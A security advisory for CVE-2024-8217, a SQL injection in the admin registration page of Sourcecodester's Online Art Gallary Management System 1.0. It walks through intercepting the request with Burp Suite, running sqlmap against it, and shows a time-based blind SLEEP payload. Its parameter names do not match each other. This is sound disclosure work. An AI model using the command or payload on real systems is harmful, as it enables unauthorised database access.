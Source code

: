 # SQL Injection vulnerability was discovered in Sourcecodester Online Art Gallary Management System 1.0 (admin registration)

---
CVE-2024-8217
---
Affected Project: Sourcecodester Online Art Gallary Management System 1.0

Official Website: https://www.sourcecodester.com/php/14211/online-art-gallery-management-system-project-using-phpmysql.html

Version: 1.0

Related Code file: /Admin/registration.php

Injection parameter: fname


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The price and name fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the /Admin/ By clicking on **Registration**, we can register for admin account.

`http://192.168.12.147/Admin/registration.php`

![image](https://github.com/gurudattch/CVEs/blob/main/assets/0.png)

--- 

We will first intercept the registration traffic using Burp Suite
![image1](https://github.com/gurudattch/CVEs/blob/main/assets/1.png)

 ---
 
Save the intercepted Registration request to a .txt file and execute sqlmap towards it. 

![image1](https://github.com/gurudattch/CVEs/blob/main/assets/2.png)


---

parameter fname is vulnerable to sql injection

Below commands verifies the vulnerability:

`$ sqlmap -r sqli_test.txt -p fname`

---

![image3](https://github.com/gurudattch/CVEs/blob/main/assets/3.png)

---

```
---
Parameter: fname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=asdafsd&price=123 AND (SELECT 1175 FROM (SELECT(SLEEP(5)))jrgF)&action=
---
```
